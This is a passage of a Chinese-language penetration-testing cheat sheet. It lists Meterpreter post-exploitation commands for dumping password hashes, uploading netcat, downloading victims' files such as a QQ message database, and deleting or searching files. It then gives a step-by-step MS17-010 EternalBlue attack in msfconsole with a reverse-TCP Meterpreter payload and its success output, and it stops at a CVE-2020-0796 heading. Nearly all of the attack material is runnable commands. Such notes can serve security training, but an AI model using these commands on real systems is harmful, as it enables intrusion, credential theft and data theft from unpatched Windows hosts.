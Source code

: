 ```
  
 hashdump         -->获取当前用户hash
 
 2.文件系统命令
 cat c:\boot.ini#查看文件内容,文件必须存在
 del c:\boot.ini #删除指定的文件
 upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32\
 download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/或者download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/
 edit c:\boot.ini  # 编辑文件
 getlwd#打印本地目录
 getwd#打印工作目录
 lcd#更改本地目录
 ls#列出在当前目录中的文件列表
 lpwd#打印本地目录
 pwd#输出工作目录
 cd c:\\ #进入目录文件下
 rm file #删除文件
 mkdir dier #在受害者系统上的创建目录
 rmdir#受害者系统上删除目录
 dir#列出目标主机的文件和文件夹信息
 mv#修改目标主机上的文件名
 search -d d:\\www -f web.config #search 文件，如search  -d c:\\  -f*.doc
 meterpreter > search -f autoexec.bat  #搜索文件
 meterpreter > search -f sea*.bat c:\\xamp\\
 enumdesktops     #用户登录数
 
 1)下载文件
 使用命令“download +file path”,将下载目标机器的相对应权限的任何路径下的文件
 (2)上传文件
 “upload”命令为上传文件到我们的目标机器，在图中我们上传了ll.txt到目标机器的c:\pp\下。
 (3)查看文件
 “cat filename”在当前目录下查看文件内容，输入命令后便会返回给我们所查看文件的内容。
 (4)切换、查询当前路径
 “pwd”命令将查询当前在dos命令下的路径，“cd”命令可以改变当前路径，如下图中cd ..为切换到当前路径下的上一目录。
```

### MS17-010

- 著名漏洞永恒之蓝，当年导致了比特币暴涨

```
root@kali:~# msfconsole
 msf5 > search ms17_010
 msf5 > use exploit/windows/smb/ms17_010_eternalblue
 msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.72.137
 msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
 msf5 exploit(windows/smb/ms17_010_eternalblue) > run
 [+] 192.168.72.137:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
 [+] 192.168.72.137:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
 [+] 192.168.72.137:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
 # 看到这个WIN就说明入侵成功
 meterpreter > sysinfo
 Computer        : WIN7-PC
 OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
 Architecture    : x64
 System Language : zh_CN
 Domain          : WORKGROUP
 Logged On Users : 1
 Meterpreter     : x64/windows
```
### CVE-2020-0796（永恒之黑）
